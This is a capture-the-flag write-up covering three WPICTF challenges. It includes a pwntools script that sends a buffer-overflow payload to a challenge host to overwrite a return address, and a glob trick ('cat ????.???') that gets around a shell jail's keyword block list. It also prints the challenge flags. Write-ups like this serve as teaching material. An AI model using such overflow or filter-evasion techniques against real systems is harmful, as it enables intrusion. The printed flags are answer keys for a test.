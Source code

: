 EZPZ, Pwn, 100pts
==================

Problem
--------
nc ezpz.wpictf.xyz 31337

Solution
--------
We run the following script -

```python
from pwn import *


r = remote('ezpz.wpictf.xyz', 31337)

msg = r.recvline()
print(msg)
flag_address = int(msg.split(' ')[1], 16)
r.recvline()

buf  = 'A'*0x88
buf += p64(flag_address)
r.sendline(buf)


r.interactive()
```

This gives the flag - `WPI{3uffer_0verflows_r_ezpz_l3mon_5queazy}`.

Shell-JAIL-1, Pwn, 150pts
==========================

Problem
--------
Download the login private key, then run:

ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz

redundant servers on 31338 and 31339

Solution
---------
The solution was to not use "\*", "sh", "/", "home", "pc_owner", "flag", "txt" in the command to display flag.txt.

So we run - `./access "cat ????.???"`

The flag is - `wpi{MaNY_WayS_T0_r3Ad}`.

Penguin, Reversing, 50pts
=========================

Problem
-------
Find flag.

Solution
--------

We use ltrace to see program flow.

Running `ltrace WPI{1}`

Gives output -
![](output.png)

So we keep doing that, and finally get the flag - `WPI{strings_only_gives_you_wings,_you_still_have_to_learn_how_to_fly._try_hexedit}`.
